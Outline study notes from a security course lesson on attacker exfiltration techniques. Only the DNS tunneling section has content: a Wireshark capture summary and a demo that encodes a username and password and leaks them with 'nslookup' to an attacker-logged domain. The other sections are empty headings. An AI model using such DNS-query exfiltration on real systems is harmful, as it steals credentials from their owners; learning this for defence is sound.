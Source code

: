 # 49. Explain Exfiltration Techniques

Trainer: Knox Hutchinson


## Introducing Attacker Exfiltration Techniques

- Learning goals
  - DNS tunneling exfiltration
  - HTTP exfiltration
  - file transfer
  - text-based protocols


## DNS Tunneling Exfiltration

- DNS exflitration overview
  - capturing with  Wireshark
  - pkt: src=10.10.21.16, dst=10.10.21.1, prot=DNS, info=Standard query 0xe4d1 A address
  - pkt: src=10.10.21.1, dst=10.10.21.16, prot=DNS, info=Standard query response 0xe4d1
    - L7: Domain Name System (response)
      - Queries: adservice.google.com: TYpe A, Class IN; Name = adservice.google.com
      - Answers
        - advervice.google.com: Type CNAME, class IN, cname pagedad46.l.doubleclick.net
        - pagead46.l.doubleclick.net: type A, class IN, addr 64.233.185.154
        - pagead46.l.doubleclick.net: type A, class IN, addr 64.233.185.155
        - ...
  - possible attackers
    - MitM attacks
    - malware in client
  - possible info exflitrated: username, password, file-shared locations, GPOs


- Demo: data exflitated by DNS queries
  - browsing https://www.base64encode.org: encode 'username=knox:password=cisco -> encode -> hex string abc
  - cmd: `nslookup abc.knoxsdata.com`
  - DNS query logged by attacker
  - decode the hex string abc back to username and password



## HTTP(S) Exfiltration




## Outbound File Transfers




## Text-Based Protocols




## Recapping Exfiltration Techniques



